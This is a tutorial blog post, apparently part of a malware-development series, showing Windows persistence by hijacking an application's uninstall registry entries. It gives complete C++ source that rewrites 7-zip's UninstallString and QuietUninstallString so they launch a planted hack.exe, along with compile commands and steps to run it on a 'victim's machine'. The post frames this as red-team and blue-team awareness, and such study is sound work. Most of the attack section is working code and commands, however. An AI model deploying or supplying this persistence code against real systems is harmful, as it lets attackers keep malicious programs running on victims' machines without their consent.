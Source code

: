 \newpage
\subsection{79. malware development: persistence - part 13. Hijacking uninstall logic for application. Simple C++ example.}

﷽

![pers](./images/73/2022-10-04_21-03_1.png){width="80%"}    

This post is the result of my own research into one of the interesting malware persistence trick: via hijacking uninstall file for target application.     

### uninstallation process

When you install a program on a Windows system, they usually point to their own uninstallers. They are in the registry keys:    

`HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\<application name>`    

and  

`HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\QuietUninstallString\<application name>`     

So what is the trick? There is no problem with replacing them with commands that can run any other program. When a user executes the uninstaller, the command of the attacker's choosing is executed. Again, the good news is that privileges are required to modify these items, as they reside under the `HKLM` key.     

### practical example

Let's look at a practical example. Firstly, let's choose a target application. I chose `7-zip x64`:    

![pers](./images/73/2022-10-04_20-13_1.png){width="80%"}    

![pers](./images/73/2022-10-04_20-15.png){width="80%"}    

![pers](./images/73/2022-10-04_20-15_1.png){width="80%"}    

Then, check registry key values, for correctness:    

```powershell
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\7-zip" /s
```

![pers](./images/73/2022-10-04_20-08.png){width="80%"}    

Also, I prepared my evil application. It's as usually `meow-meow` "malware" :)    

![pers](./images/73/2022-10-04_20-10.png){width="80%"}    

Then, I create a program, which do my logic for persistence (`pers.cpp`):    

```cpp
/*
pers.cpp
windows persistence via
hijacking uninstall app
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/10/04/malware-pers-13.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // target app
  const char* app = 
  "SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Uninstall\\7-zip";

  // evil app
  const char* exe = 
  "C:\\Users\\User\\Documents\\malware\\2022-10-04-malware-pers-13\\hack.exe";

  // app
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)app, 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // update registry key value
    // reg add 
    //"HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Uninstall\
    // 7-zip" /v "UninstallString" /t REG_SZ /d "...\hack.exe" /f
    RegSetValueEx(hkey, (LPCSTR)"UninstallString", 0, REG_SZ, (unsigned char*)
    exe, strlen(exe));
    RegSetValueEx(hkey, (LPCSTR)"QuietUninstallString", 0, REG_SZ, 
    (unsigned char*)exe, strlen(exe));
    RegCloseKey(hkey);
  }

  return 0;
}
```

As you can see, the logic is simple, we are just update target key values in registry.    

### demo

Let's go to see everything in action. Compile malware and persistence script:    

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![pers](./images/73/2022-10-04_20-09.png){width="80%"}    

And run at the victim's machine - `Windows 10 x64` in my case:    

```powershell
.\pers.exe
```

![pers](./images/73/2022-10-04_20-59.png){width="80%"}    

Finally, after reboot my system, tried to uninstall `7-zip`:    

![pers](./images/73/2022-10-04_20-13_1.png){width="80%"}    

![pers](./images/73/2022-10-04_20-15.png){width="80%"}    

![pers](./images/73/2022-10-04_21-01.png){width="80%"}    

![pers](./images/73/2022-10-04_21-03.png){width="80%"}    

Then I looked at the properties of `hack.exe` in Process Hacker 2:    

![pers](./images/73/2022-10-04_21-05.png){width="80%"}    

as you can see the parent process is `SystemSettings.exe` - is what you see whenever you open your Windows settings. In our case, it is `add/remove programs`. Perfect! =^..^=    

There are the little caveat. When I try to update key with path `Z:\2022-10-04-malware-pers-13\hack.exe` I get an error like this:    

![pers](./images/73/2022-10-05_17-37.png){width="80%"}    

Maybe you can use only paths inside the disk `C:\`.    

After end of the experiments, clean up:    

```powershell
reg add 
"HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Uninstall\7-zip" 
/v "UninstallString" /t REG_SZ /d "C:\Program Files\7-zip\Uninstall.exe" /f
```

![pers](./images/73/2022-10-05_17-50.png){width="80%"}    

### conclusion

Of course, maybe this trick is not so cool for persistence, since it requires the permissions and participation of the victim's user. But why not?    

There is one more trick with using installing and removing programs for persistence, I will write about it in one of the future posts. I'm still in the process of investigating this possibility for the red team.      

I hope this post spreads awareness to the blue teamers of this interesting technique, and adds a weapon to the red teamers arsenal.    

[RegOpenKeyEx](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regopenkeyexa)    
[RegSetValueEx](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regsetvalueexa)    
[RegCloseKey](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regclosekey)    
[reg query](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/reg-query)      
[source code in github](https://github.com/cocomelonc/meow/tree/master/2022-10-04-malware-pers-13)     
